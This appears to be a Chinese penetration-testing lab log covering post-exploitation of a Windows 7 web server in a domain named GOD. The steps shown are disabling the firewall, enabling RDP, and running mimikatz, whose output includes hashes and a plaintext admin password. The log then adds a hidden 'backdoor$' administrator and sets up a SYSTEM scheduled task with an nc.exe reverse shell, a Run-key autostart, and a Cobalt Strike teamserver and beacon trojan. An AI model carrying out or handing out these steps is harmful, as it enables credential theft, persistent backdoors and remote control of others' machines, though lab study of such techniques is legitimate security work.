## 关闭防火墙
```bash
# 查看端口开放情况
netstat -an              

# 补丁很少，可以看看又没哟可利用的漏洞点，先查查445端口信息
# 可以查查敏感端口是否开放，443，445，3389等
netstat -an | find ":445"           # 如果不对就是netstat -an | findstr ":445"
netstat -an | find ":3389"

# 查看防火墙状态
netsh advfirewall show allprofiles

# 关闭防火墙，关闭之后记得及时查看状态
netsh advfirewall set allprofiles state off

# 开启防火墙是这个命令，按需执行即可
netsh advfirewall set allprofiles state on

```

## 开启RDP远程桌面
```bash
# 开启RDP(3389)远程桌面，这个改的是注册表信息
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# 加入3389规则防火墙，以防万一，虽然关闭了防火墙，但是有时候会出问题
netsh advfirewall firewall add rule name="RDP 3389" dir=in protocol=tcp localport=3389 action=allow
```

***终端命令信息分析
```bash
:\phpStudy\WWW> whoami
god\administrator
 
C:\phpStudy\WWW> netstat -an                       # nmap没有扫描到，是开了防火墙
活动连接
  协议  本地地址          外部地址        状态
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1025           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1026           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1027           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1028           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1033           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:1267           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
  TCP    169.254.129.186:139    0.0.0.0:0              LISTENING
  TCP    192.168.52.143:139     0.0.0.0:0              LISTENING
  TCP    192.168.99.129:80      192.168.99.130:45696   ESTABLISHED
  TCP    192.168.99.129:80      192.168.99.130:48088   TIME_WAIT
  TCP    192.168.99.129:139     0.0.0.0:0              LISTENING
  TCP    192.168.99.129:1520    15.197.225.128:389     SYN_SENT
  TCP    192.168.99.129:1521    3.33.251.168:389       SYN_SENT
  TCP    [::]:80                [::]:0                 LISTENING
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  TCP    [::]:1025              [::]:0                 LISTENING
  TCP    [::]:1026              [::]:0                 LISTENING
  TCP    [::]:1027              [::]:0                 LISTENING
  TCP    [::]:1028              [::]:0                 LISTENING
  TCP    [::]:1033              [::]:0                 LISTENING
  TCP    [::]:1267              [::]:0                 LISTENING
  UDP    0.0.0.0:68             *:*                    
  UDP    0.0.0.0:123            *:*                    
  UDP    0.0.0.0:500            *:*                    
  UDP    0.0.0.0:4500           *:*                    
  UDP    0.0.0.0:5355           *:*                    
  UDP    127.0.0.1:56848        *:*                    
  UDP    127.0.0.1:58357        *:*                    
  UDP    127.0.0.1:64177        *:*                    
  UDP    169.254.129.186:137    *:*                    
  UDP    169.254.129.186:138    *:*                    
  UDP    192.168.52.143:137     *:*                    
  UDP    192.168.52.143:138     *:*                    
  UDP    192.168.99.129:137     *:*                    
  UDP    192.168.99.129:138     *:*                    
  UDP    [::]:123               *:*                    
  UDP    [::]:500               *:*                    
  UDP    [::]:4500              *:*                    
  UDP    [::]:5355              *:*                    
  UDP    [fe80::653d:23d6:de8d:ab50%11]:546  *:*                    
  UDP    [fe80::94dc:fabd:995c:29e9%26]:546  *:*                    
  UDP    [fe80::b461:ccad:e30f:81ba%24]:546  *:*                    
 
C:\phpStudy\WWW> netstat -an | find ":445"       # 445端口处于监听状态，被防火墙过滤了
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
 
C:\phpStudy\WWW> netstat -an | find ":3389"      # 3389端口没有显示，应该是关闭了
 
C:\phpStudy\WWW> netsh advfirewall show allprofiles
域配置文件 设置: 
----------------------------------------------------------------------
状态                                  打开
防火墙策略                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (仅 GPO 存储)
LocalConSecRules                      N/A (仅 GPO 存储)
InboundUserNotification               启用
RemoteManagement                      禁用
UnicastResponseToMulticast            启用
日志:
LogAllowedConnections                 禁用
LogDroppedConnections                 禁用
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
专用配置文件 设置: 
----------------------------------------------------------------------
状态                                  打开
防火墙策略                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (仅 GPO 存储)
LocalConSecRules                      N/A (仅 GPO 存储)
InboundUserNotification               启用
RemoteManagement                      禁用
UnicastResponseToMulticast            启用
日志:
LogAllowedConnections                 禁用
LogDroppedConnections                 禁用
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
公用配置文件 设置: 
----------------------------------------------------------------------
状态                                  打开
防火墙策略                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (仅 GPO 存储)
LocalConSecRules                      N/A (仅 GPO 存储)
InboundUserNotification               启用
RemoteManagement                      禁用
UnicastResponseToMulticast            启用
日志:
LogAllowedConnections                 禁用
LogDroppedConnections                 禁用
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
确定。
 
C:\phpStudy\WWW> netsh advfirewall set allprofiles state off   # 关掉防火墙了
ȷ����
 
C:\phpStudy\WWW> reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
操作成功完成。
 
C:\phpStudy\WWW> netsh advfirewall firewall add rule name="RDP 3389" dir=in protocol=tcp localport=3389 action=allow
ȷ����
 
C:\phpStudy\WWW> 
```

	结论：关掉了防火墙，开启了3389rdp，后续可以用这个远程连接了。

## 提取内存密码
```bash
# kali系统中ing
# 第一次用这个mimikatz这个软件，就先下载一下，有的话就不需要这一步了
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip

# 解压
unzip mimikatz_trunk.zip

# 使用蚂蚁剑连接到目标web服务器，右键点击上传，选择这个mimikatz的文件夹里里面，将这个.exe的程序上传

# 上传之后，用命令行执行命令，调试，读取内存密码，并且保存在当前路径下的passowrd.txt文档下
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > passwords.txt

```



	结论：将程序上传上去之后，右下角会有提示，然后在对方目标服务器的目录下会有这个程序

***虚拟终端输出内容
```bash
# 命令窗口
C:\phpStudy\WWW> mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > password.txt
 
C:\phpStudy\WWW> echo password.txt
password.txt
 
C:\phpStudy\WWW> type password.txt
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # sekurlsa::logonpasswords
Authentication Id : 0 ; 1481721 (00000000:00169bf9)
Session           : Interactive from 1
User Name         : Administrator                # 管理员账号
Domain            : GOD                          # 域 god
Logon Server      : OWA                          # 登录的是域主机owa
Logon Time        : 2026/4/14 13:13:03
SID               : S-1-5-21-2952760202-1353902439-2381784089-500
    msv :    
     [00000003] Primary
     * Username : Administrator
     * Domain   : GOD
     * LM       : b9f0ea2d62d9c4e8af84d1bb761ed383         # hong@2019密码的sha1的值
     * NTLM     : 56fdfd5d33434048eeaf96de6ae5d0ab
     * SHA1     : f85451caedd9ed0fcc0c79c1250822dad6de166a
    tspkg :    
     * Username : Administrator
     * Domain   : GOD
     * Password : hong@2019                                # 密码hong@2019！！！
    wdigest :    
     * Username : Administrator
     * Domain   : GOD
     * Password : hong@2019
    kerberos :    
     * Username : Administrator
     * Domain   : GOD.ORG
     * Password : hong@2019
    ssp :    
    credman :    
Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2026/4/14 13:12:51
SID               : S-1-5-19
    msv :    
    tspkg :    
    wdigest :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :    
    credman :    
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : STU1$
Domain            : GOD
Logon Server      : (null)
Logon Time        : 2026/4/14 13:12:51
SID               : S-1-5-20
    msv :    
     [00000003] Primary
     * Username : STU1$
     * Domain   : GOD
     * NTLM     : c5c8d9f2d9c3c7de82d4e56b792046ce
     * SHA1     : 4dfcc395a1c51171f13f68c000c6815caec6c311
    tspkg :    
    wdigest :    
     * Username : STU1$
     * Domain   : GOD
     * Password : 0b 80 73 2c d9 3e 7e 05 36 7f 4f c0 5f d1 3a db 48 52 9e 2b 3a 19 a2 8a 2b f6 a2 a6 2f c2 08 76 fa c0 f9 58 61 e6 3a ce 1b 49 98 97 72 15 7e 34 b3 0a bd d6 93 bc 22 42 93 09 ec 1f ab 60 21 d9 d5 4c 72 a7 b9 16 d6 53 b6 16 05 10 99 90 d2 b0 c4 52 4d 1d 5f 37 2d b7 19 de 87 8f e7 3d 12 29 f6 24 2e f8 a5 b9 6e 05 13 53 aa 3c 83 c4 a5 c9 43 0e 75 25 b2 91 72 4e 17 30 53 45 4e d9 b2 62 8d 7f 35 a5 aa 0b 75 6c dd 02 bf 84 db 54 d6 03 a9 40 0f 2b ec 77 4d 9d e4 10 9f 08 90 6e 94 f0 01 18 3a 6a 7d e6 ea c3 17 7a 5f 57 92 52 d6 54 43 de 75 e5 d8 40 1a 3a 7d 08 58 b2 3a 8e 4c 86 cf c3 13 d0 e2 29 63 9d d8 49 ac 92 98 bb af 25 11 41 04 cb 62 a1 a2 89 47 a8 e5 7c 54 ca b6 f1 cd 49 73 11 9c be 8b 75 2d cf a2 08 4f 8b 15 d4 
    kerberos :    
     * Username : stu1$
     * Domain   : GOD.ORG
     * Password : 0b 80 73 2c d9 3e 7e 05 36 7f 4f c0 5f d1 3a db 48 52 9e 2b 3a 19 a2 8a 2b f6 a2 a6 2f c2 08 76 fa c0 f9 58 61 e6 3a ce 1b 49 98 97 72 15 7e 34 b3 0a bd d6 93 bc 22 42 93 09 ec 1f ab 60 21 d9 d5 4c 72 a7 b9 16 d6 53 b6 16 05 10 99 90 d2 b0 c4 52 4d 1d 5f 37 2d b7 19 de 87 8f e7 3d 12 29 f6 24 2e f8 a5 b9 6e 05 13 53 aa 3c 83 c4 a5 c9 43 0e 75 25 b2 91 72 4e 17 30 53 45 4e d9 b2 62 8d 7f 35 a5 aa 0b 75 6c dd 02 bf 84 db 54 d6 03 a9 40 0f 2b ec 77 4d 9d e4 10 9f 08 90 6e 94 f0 01 18 3a 6a 7d e6 ea c3 17 7a 5f 57 92 52 d6 54 43 de 75 e5 d8 40 1a 3a 7d 08 58 b2 3a 8e 4c 86 cf c3 13 d0 e2 29 63 9d d8 49 ac 92 98 bb af 25 11 41 04 cb 62 a1 a2 89 47 a8 e5 7c 54 ca b6 f1 cd 49 73 11 9c be 8b 75 2d cf a2 08 4f 8b 15 d4 
    ssp :    
    credman :    
Authentication Id : 0 ; 51151 (00000000:0000c7cf)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2026/4/14 13:12:51
SID               : 
    msv :    
     [00000003] Primary
     * Username : STU1$
     * Domain   : GOD
     * NTLM     : c5c8d9f2d9c3c7de82d4e56b792046ce
     * SHA1     : 4dfcc395a1c51171f13f68c000c6815caec6c311
    tspkg :    
    wdigest :    
    kerberos :    
    ssp :    
    credman :    
Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : STU1$
Domain            : GOD
Logon Server      : (null)
Logon Time        : 2026/4/14 13:12:51
SID               : S-1-5-18
    msv :    
    tspkg :    
    wdigest :    
     * Username : STU1$
     * Domain   : GOD
     * Password : 0b 80 73 2c d9 3e 7e 05 36 7f 4f c0 5f d1 3a db 48 52 9e 2b 3a 19 a2 8a 2b f6 a2 a6 2f c2 08 76 fa c0 f9 58 61 e6 3a ce 1b 49 98 97 72 15 7e 34 b3 0a bd d6 93 bc 22 42 93 09 ec 1f ab 60 21 d9 d5 4c 72 a7 b9 16 d6 53 b6 16 05 10 99 90 d2 b0 c4 52 4d 1d 5f 37 2d b7 19 de 87 8f e7 3d 12 29 f6 24 2e f8 a5 b9 6e 05 13 53 aa 3c 83 c4 a5 c9 43 0e 75 25 b2 91 72 4e 17 30 53 45 4e d9 b2 62 8d 7f 35 a5 aa 0b 75 6c dd 02 bf 84 db 54 d6 03 a9 40 0f 2b ec 77 4d 9d e4 10 9f 08 90 6e 94 f0 01 18 3a 6a 7d e6 ea c3 17 7a 5f 57 92 52 d6 54 43 de 75 e5 d8 40 1a 3a 7d 08 58 b2 3a 8e 4c 86 cf c3 13 d0 e2 29 63 9d d8 49 ac 92 98 bb af 25 11 41 04 cb 62 a1 a2 89 47 a8 e5 7c 54 ca b6 f1 cd 49 73 11 9c be 8b 75 2d cf a2 08 4f 8b 15 d4 
    kerberos :    
     * Username : stu1$
     * Domain   : GOD.ORG
     * Password : 0b 80 73 2c d9 3e 7e 05 36 7f 4f c0 5f d1 3a db 48 52 9e 2b 3a 19 a2 8a 2b f6 a2 a6 2f c2 08 76 fa c0 f9 58 61 e6 3a ce 1b 49 98 97 72 15 7e 34 b3 0a bd d6 93 bc 22 42 93 09 ec 1f ab 60 21 d9 d5 4c 72 a7 b9 16 d6 53 b6 16 05 10 99 90 d2 b0 c4 52 4d 1d 5f 37 2d b7 19 de 87 8f e7 3d 12 29 f6 24 2e f8 a5 b9 6e 05 13 53 aa 3c 83 c4 a5 c9 43 0e 75 25 b2 91 72 4e 17 30 53 45 4e d9 b2 62 8d 7f 35 a5 aa 0b 75 6c dd 02 bf 84 db 54 d6 03 a9 40 0f 2b ec 77 4d 9d e4 10 9f 08 90 6e 94 f0 01 18 3a 6a 7d e6 ea c3 17 7a 5f 57 92 52 d6 54 43 de 75 e5 d8 40 1a 3a 7d 08 58 b2 3a 8e 4c 86 cf c3 13 d0 e2 29 63 9d d8 49 ac 92 98 bb af 25 11 41 04 cb 62 a1 a2 89 47 a8 e5 7c 54 ca b6 f1 cd 49 73 11 9c be 8b 75 2d cf a2 08 4f 8b 15 d4 
    ssp :    
    credman :    
mimikatz(commandline) # exit
Bye!
 
```

	结论：已经拿到了这台电脑的所有信息！！！可以进行内网横向移动了！！！

## 创建隐藏后门用户
```bash
# 添加隐藏后门用户
net user backdoor$ P@ssw0rd123 /add
net localgroup administrators backdoor$ /add 

```


## 定时任务反弹shell
```bash
# 添加定时反弹shell，为一个小时
schtasks /create /tn "WindowsUpdate" /tr "C:\nc.exe -e cmd.exe 你的IP 4444" /sc hourly /ru SYSTEM

# 注册表开机自启动
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SystemCheck" /t REG_SZ /d "C:\shell.exe" /f 
```

	结论：至此，这台Windows 7 的Web服务器已经成为了跳板机（肉鸡/傀儡机）了，接下来横向移动！！！

# 横向移动
	引言：这里用的是CS软件，我想学习一下cs的使用，正常来说我应该在入侵win7的时候用的这个来着。。。

### 安装必要的服务
```bash
# kali系统中。。。
# 更新一下系统，以便安装最新的java化境
sudo apt update && sudo apt upgrade -y
sudo apt install openjdk-11-jdk -y

# 下载cs 解压密码为mht
[百度网盘 请输入提取码](https://pan.baidu.com/share/init?surl=Dv1oHSBm6vNcY_YrxIWy5Q&pwd=p2n5)

将这个文件分别放到kali和物理机，kali用于开启server服务端，物理机则是客户端
```

## 启动CS服务端（kali）
```bash
# 切换到cs的server目录下
cd /home/kali/tools/cobaltstrike
chmod +x teamserver            # 添加执行权限
./teamserver kali的IP地址 密码（密码自己设置）
```

***终端内容信息分析
```bash
# 切换到cs的目录下面
─(kali㉿kali)-[~]
└─$ cd /home/kali/tools/CobaltStrike4.8汉化版 
                                                              
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版]
└─$ cd Server                                
                                                              
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版/Server]
└─$ ls
cobaltstrike.auth  teamserver       third-party
source-common.sh   TeamServerImage
 
# 增加执行权限                                                                 
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版/Server]
└─$ chmod +x teamserver
 
# 开启服务 IP地址则为这个kail服务端的，密码随便填，要记住                                                            
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版/Server]
└─$ ./teamserver 192.168.99.130 123456       
[-] Superuser privileges are required to run the team server
                                                              
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版/Server]
└─$ sudo ./teamserver 192.168.99.130 123456
[sudo] kali 的密码：

[*] Generating X509 certificate and keystore (for SSL)
正在为以下对象生成 3072 位 RSA 密钥对和自签名证书 (SHA384withRSA)（有效期为 90 天）：
        CN=Major Cobalt Strike, OU=AdvancedPenTesting, O=cobaltstrike, L=Somewhere, ST=Cyberspace, C=Earth

[*] Starting teamserver
./teamserver: 行 47: ./TeamServerImage: 权限不够
                                                              
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版/Server]
└─$ sudo chmod +x TeamServerImage
  
# 服务开启之后，这个窗口就不要关掉了！！！                                                            
┌──(kali㉿kali)-[~/tools/CobaltStrike4.8汉化版/Server]
└─$ sudo ./teamserver 192.168.99.130 123456

[*] Will use existing X509 certificate and keystore (for SSL)

[*] Starting teamserver
[*] Team Server Version: 4.8 (Pwn3rs)
[*] Setting 'https.protocols' system property: SSLv3,SSLv2Hello,TLSv1,TLSv1.1,TLSv1.2,TLSv1.3
[*] Loading keystrokes.
[*] Loaded 0 keystrokes.
[*] Loading screenshots.
[*] Loaded 0 screenshots.
[*] Loading downloads.
[*] Loaded 0 downloads.
[*] Loading Windows error codes.
[*] Windows error codes loaded
[*] Loading hosted files
[*] Loaded 0 servers with hosted items
[*] Loading beacons
[*] Loaded 0 beacons
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: 50da031b6a00c621c2bf612c245fcc024e1e2a96427633f02d4045608a4437ae

```
***客户端配置
前置条件：物理机也需要安装jdk环境，推荐jdk11即可，浏览器可以搜索进行下载

打开客户端的cs软件
	点击cobalt_strike_CN.bat，中文版本的，双击即可


***配置客户端址
	注解：第一行为服务端，起个能记住的名字就行
		第二行则为服务端的IP地址
		第三行端口默认即可
		第四行是用户名，给自己起一个，团队用的话就不要重名了
		最后一行则是服务端设置的密码，我的是123456
	配置完成就点击connect即可
接下来会弹出一个黑色窗口和一个程序窗口，都不要关。


***设置监听器
	点击“监听器”


***配置监听器设置
	点击“Add”
	name则是这个监听器的名称，随便起一个，我写的是win7的。payload用默认的beacon HTTP即可。HTTP hosts这个则是kali服务端的地址，点击+号进行添加。HTTP port的端口默认的是80，建议改成8080，以防冲突，设置完成之后点击save即可，会弹出一个启动监听的弹窗，确定即可。


***配置木马
	点击有效载荷，点击Windows可执行程序（stageless），更保险一点。


***生成木马
点击listener右侧的三个小点，在弹出来的窗口里面选择添加的监听器，选中之后，单击下方的chooose，记得勾选下方的use x64payload。会弹出来个程序保存位置，之后会用这个用蚂蚁剑上传到win7的电脑上。
